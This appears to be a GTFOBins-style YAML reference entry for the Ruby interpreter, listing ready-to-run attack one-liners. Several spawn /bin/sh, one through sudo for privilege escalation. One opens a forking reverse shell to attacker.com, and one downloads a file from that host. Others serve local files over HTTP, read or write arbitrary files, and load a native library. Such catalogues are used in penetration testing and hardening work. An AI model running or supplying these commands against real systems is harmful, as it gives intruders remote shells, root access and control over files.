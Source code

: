 ```yaml
---
functions:
  execute-interactive:
    - code: ruby -e 'exec "/bin/sh"'
  sudo-enabled:
    - code: sudo ruby -e 'exec "/bin/sh"'
  upload:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export RFILE=/file_to_get
        export LFILE=file_to_save
        ruby -e 'require "net/http"; Net::HTTP.start(ENV["RHOST"], ENV["RPORT"]) { |http| r = http.get(ENV["RFILE"]); open(ENV["LFILE"], "wb") { |file| file.write(r.body) } }'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("data") }'
  load-library:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
---
```

